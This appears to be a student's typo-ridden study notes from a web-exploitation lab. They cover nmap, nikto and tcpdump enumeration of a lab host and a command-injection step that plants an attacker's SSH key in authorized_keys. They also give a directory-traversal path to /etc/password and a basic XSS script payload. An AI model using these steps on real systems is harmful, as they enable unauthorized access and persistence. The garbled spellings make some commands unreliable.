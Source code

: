 web exploitation
tcpdump 
javascript website stuff
robots.ttxt is for web scrapers to look where stuff is
wevw

enumerate website
robt.txt
/uploads
/chat
/cmd injection
/java
/webxample
/cross

from surving
-acn upload file?

using tools

nmap scripy =http-enum 10.50.28.11 -vv

sudo tcpdump -XXvvnni any tcp prt 80
nikto v -h host
 nikto v -h 10.50.28.11
 sudo apt install nikto

after unning that, go to command injection. do enumeration. find what ur ssh is
go to ur limops
make a ssh key using ssh-keygen
go to the file it says
copy
then run in the website prompt
echo "sshkey" >>var/www/.ssh/authorized_keys
then cat the file
cat var/www/.ssh/authorized_keys

## directory traversal

../../../../../../../../../../../../etc/password in the url or the radio button
assu,ing its not im ho,e directory and is running cat

## web example
## cross
<script>alert('XSS!');</script>


